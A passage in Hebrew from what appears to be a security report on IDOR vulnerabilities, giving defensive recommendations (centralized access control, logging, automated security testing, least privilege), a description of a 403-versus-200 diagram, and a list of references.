**בקרת גישה מרכזית (Centralized Access Control)** – יש לממש את לוגיקת בקרת הגישה במקום מרכזי אחד (כ-Decorator, Middleware, או שכבת שירות) ולהשתמש בה באופן אחיד בכל נקודות הקצה הרלוונטיות. גישה זו מונעת שכחה של בדיקות הרשאה ומקלה על תחזוקה ועדכון של מדיניות הגישה.

**תיעוד וניטור (Logging and Monitoring)** – יש לתעד כל ניסיון גישה לא מורשה, כולל פרטי המשתמש, המשאב המבוקש, וחותמת הזמן. לוגים אלו חיוניים לזיהוי ניסיונות תקיפה בזמן אמת ולחקירה לאחר אירוע אבטחה. כפי שהודגם באפליקציה המתוקנת, כל ניסיון IDOR שנחסם מתועד עם הודעת אזהרה.

**בדיקות אבטחה אוטומטיות** – יש לשלב בדיקות אבטחה, הן ידניות (Code Review) והן אוטומטיות (SAST/DAST), כחלק מתהליך הפיתוח (CI/CD). בדיקות אלו יכולות לזהות חולשות IDOR מוקדם ככל האפשר, עוד לפני שהקוד מגיע לסביבת הייצור.

**עקרון ההרשאה המינימלית (Principle of Least Privilege)** – יש להעניק לכל משתמש רק את ההרשאות המינימליות הנדרשות לביצוע תפקידו. עקרון זה מצמצם את הנזק הפוטנציאלי במקרה של ניצול מוצלח.

### 4.4 דיאגרמת מנגנוני ההגנה

התרשים הבא ממחיש כיצד השרת המאובטח, באמצעות שכבת הרשאה ייעודית, חוסם את כל ניסיונות התקיפה שהצליחו מול השרת הפגיע. ניתן לראות כיצד כל בקשה זדונית נחסמת עם תגובת 403 Forbidden, בניגוד לשרת הפגיע שהחזיר 200 OK עם המידע המבוקש.



---

## 5. מקורות

[1] OWASP Foundation. (2021). **A01:2021 – Broken Access Control**. OWASP Top 10. https://owasp.org/Top10/2021/A01_2021-Broken_Access_Control/

[2] CISA, ACSC, NSA & FBI. (2023). **Preventing Web Application Access Control Abuse** (Advisory AA23-208A). https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-208a

[3] Krebs, B. (2019). **First American Financial Corp. Leaked Hundreds of Millions of Title Insurance Records**. Krebs on Security. https://krebsonsecurity.com/2019/05/first-american-financial-corp-leaked-hundreds-of-millions-of-title-insurance-records/

[4] PortSwigger. (n.d.). **Insecure Direct Object References (IDOR)**. Web Security Academy. https://portswigger.net/web-security/access-control/idor

[5] OWASP Foundation. (n.d.). **Insecure Direct Object Reference Prevention Cheat Sheet**. OWASP Cheat Sheet Series. https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html

[6] MDN Web Docs. (n.d.). **Insecure Direct Object Reference (IDOR)**. Mozilla Developer Network. https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/IDOR

</div>
